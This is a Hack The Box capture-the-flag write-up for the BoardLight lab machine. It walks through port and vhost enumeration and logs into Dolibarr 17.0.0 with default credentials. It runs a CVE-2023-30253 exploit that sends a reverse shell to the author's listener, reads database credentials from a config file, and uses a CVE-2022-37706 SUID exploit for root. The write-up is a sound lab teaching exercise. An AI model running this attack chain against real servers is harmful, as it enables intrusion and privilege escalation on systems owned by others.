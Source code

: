 ```yaml
---
tags:
  - Hack The Box
  - Boardlight
---
```


# BoardLight

![Boardlight.png](../assets/images/boardlight/boardlight.png)

If you’ve ever dipped your toes into the world of ethical hacking, chances are you’ve heard of HackTheBox (HTB). It’s a platform that provides a variety of virtual machines (VMs) designed to challenge your hacking skills. Today, we’ll dive into a detailed walkthrough of the **BoardLight Writeup** VM on HTB. This writeup will guide you through each step, from initial recon to capturing the final flag, ensuring you grasp every concept along the way.

# Enumeration 

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ nmap -sC -sV 10.10.11.11             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 12:49 +08
Nmap scan report for 10.10.11.11
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.05 seconds
```
## Analyzing open ports and services 

From our Nmap scan, we might find ports like 80 (HTTP) and 22 (SSH) open. Let’s focus on HTTP first, as web applications are often rich with vulnerabilities.

## Exlporing the web server 

Open your browser and navigate to `http://10.10.10.XYZ`. Here, we might find a web application running BoardLight.

![website.png](../assets/images/boardlight/website.png)

## Directory and File Brute-Forcing

We find the new domain `crm.board.htb`, so let’s also add this domain to the `/etc/hosts` file next to the previous domain we already added before, and browse to it.

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
```

![crm.png](../assets/images/boardlight/crm.png)

We find a login page and the name and version of what is running behind, `Dolibarr 17.0.0`.

I tried to log in with default credentials `admin:admin` and was able to do so, but my actions are limited.

![adminpanel.png](../assets/images/boardlight/adminpanel.png)

Because we know the version of the service running, we can search and see if it has any vulnerabilities.


I found that `Dolibarr 17.0.0` has `CVE-2023-30253`, and found this [website](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) which shows a step-by-step PoC.

## `CVE-2023-30253`

I followed the steps on the website and used `revshell.com` to get a reverse shell. To get a reverse shell you need to create a new website and a new page for that website, and then edit the code in the page to look like this:

You can also use the automated script from GitHub. I would suggest reading through the PoC to understand how the attack works and then using the GitHub script because I had a hard time making the manual method work and the machine kept getting reset. After the third reset, I found the GitHub script because the manual method took three or four tries for it to work for me, even though it worked on the first try the first time.

- URL: [https://github.com/nikn0laty/exploit-for-dolibarr](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253?source=post_page-----b1eb10fb818c--------------------------------)


```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ python3 exploit.py http://crm.board.htb admin admin 10.10.16.3 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```
And we got a connection back and a reverse shell 

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/boardlight]
└─$ nc -nlvp 4444  
listening on [any] 4444 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.11] 33836
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

From conf.php from the dolibarr cms we found the below credentials to the sql database

```bash
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

## User flag 

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
Password: 
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ ls
conf.php  conf.php.example  conf.php.old
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ cd ~
larissa@boardlight:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
larissa@boardlight:~$ cat user.txt 
fd2aa80caeac62c781723f1db333fc55
larissa@boardlight:~$ 
```

## Root flag 

```bash
larissa@boardlight:~/Downloads$ chmod +x exploit.sh
larissa@boardlight:~/Downloads$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# cd /root
# ls
root.txt  snap
# cat root.txt
6bb593385f458874ad25d4bab503253b
```

![flag.png](../assets/images/boardlight/bflag.png)
